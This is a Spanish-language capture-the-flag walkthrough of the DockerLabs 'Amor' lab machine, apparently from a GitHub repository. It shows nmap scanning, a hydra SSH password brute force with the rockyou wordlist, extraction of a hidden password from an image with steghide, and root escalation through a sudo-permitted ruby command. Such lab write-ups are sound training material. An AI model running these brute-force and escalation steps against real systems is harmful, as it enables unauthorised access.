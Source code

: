 # Máquina Amor

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

Creador -> [romabri](https://github.com/romabri/WriteUps/commits?author=romabri)

------------------
## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p22,80 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7e72b68b5f7c2364dc1521325fce400a (ECDSA)
|_  256 058aa7270f88b97084ec6d33dcce096f (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: SecurSEC S.L
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Accedemos a la web para inspeccionarla:

![Pasted image 20240427175903](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/404422b7-1efc-4b05-b538-c53b5950968c)

Encontramos información importante como un par de usuarios, **carlota** y **juan**. Y que hay usuarios en el sistema con contraseñas débiles.

--------------
## Explotación

Aplicamos fuerza bruta con **hydra** sobre los usuarios:

```shell
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
-------------------------------------------------------------------
[22][ssh] host: 172.17.0.2   login: carlota   password: babygirl
```

Encontramos las credenciales de carlota -> **carlota:babygirl**
Accedemos por ssh:

```shell
ssh carlota@172.17.0.2
```

Estamos dentro !

------------------------------
## Escalada de privilegios

En el directorio **/home/Desktop/fotos/vacaciones** de Carlota encontramos una imágen.

Nos la descargaremos para verla. Podemos usar **scp**:

```shell
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/albertomarcostic/Desktop/DockerLabs/Amor/content
```

Veremos si tiene algo oculto con la herramienta **steghide**:

```shell
steghide --extract -sf imagen.jpg
--------------------------------------
datos extrados e/"secret.txt".
```

Obtenemos un **secret.txt** con la siguiente información -> **ZXNsYWNhc2FkZXBpbnlwb24=**

Tiene pinta de **base64** así que lo decoficamos:

```shell
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
-------------------------------------------------------
eslacasadepinypon
```

Usaremos esta información como contraseña para intentar migrar a otro usuario o convertirnos en **root**:

```shell
su oscar
```

Conseguimos migrar al usuario **oscar**.
Ejecutamos **sudo -l** para ver si podemos ejecutar algo como otro usuario o como **root**:

```shell
sudo -l
------------------------------------------------
User oscar may run the following commands on 6ba86e9dc48a:
    (ALL) NOPASSWD: /usr/bin/ruby
```


Podemos ejecutar **ruby** como el usuario **root**, si no sabemos como abusar de esto, siempre podemos recurrir a [GTFOBins]()

```shell
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

```shell
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximo en la máquina.

```shell
cat /root/Desktop/THX.txt
-------------------------------
Gracias a toda la comunidad de Dockerlabs y a Mario por toda la ayuda proporcionada para poder hacer la máquina.
```
